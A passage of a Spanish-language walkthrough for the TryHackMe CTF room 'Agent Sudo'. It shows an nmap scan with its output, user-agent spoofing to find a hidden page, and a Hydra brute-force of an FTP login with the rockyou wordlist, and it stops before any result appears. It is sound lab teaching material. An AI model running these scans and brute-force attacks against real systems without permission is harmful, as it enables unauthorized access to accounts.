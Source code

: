 # TryHackMe Agent Sudo

[TryHackMe Agent Sudo](https://tryhackme.com/r/room/agentsudoctf) Esta máquina requiere encontrar dos flags: una de usuario y otra de root. Para lograrlo, será necesario descifrar hashes

## Tabla de contenidos
- [Enumeration](#enumeration)
- [Foothold](#foothold)
- [Privileges escalation](#privilege-escalation)

# Enumeration
Para empezar nos conectamos por medio de openvpn al servidor de tryhackme
```bash
sudo openvpn jose016.ovpn
```
Una vez tengamos la IP, vamos a realizar un escaneo de puertos utilizando nmap. Esto nos permitirá identificar qué servicios están activos en nuestro objetivo y así poder planificar nuestra estrategia con mayor precisión
```bash
nmap -sV 10.10.94.107
```
Resultado:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 20:09 CEST
Nmap scan report for 10.10.94.107 (10.10.94.107)
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.55 seconds
```
Al acceder a la página proporcionada por el servicio de Apache, observamos un mensaje que sugiere la posibilidad de cambiar el user-agent. Para lograrlo, utilizamos BurpSuite. Si probamos con el agente C, se nos mostrará una página oculta en http://10.10.168.111/agent_C_attention.php
```bash
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

# Foothold
El mensaje en la web instaba a Chris a cambiar su contraseña débil. Por lo tanto, procederemos a llevar a cabo un ataque de fuerza bruta utilizando Hydra, y utilizaremos el diccionario 'rockyou'
```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```
```bash
hydra -t 1 -l chris -P /usr/share/wordlists/rockyou.txt 10.10.94.107 ftp
```
Resultado:
```bash
```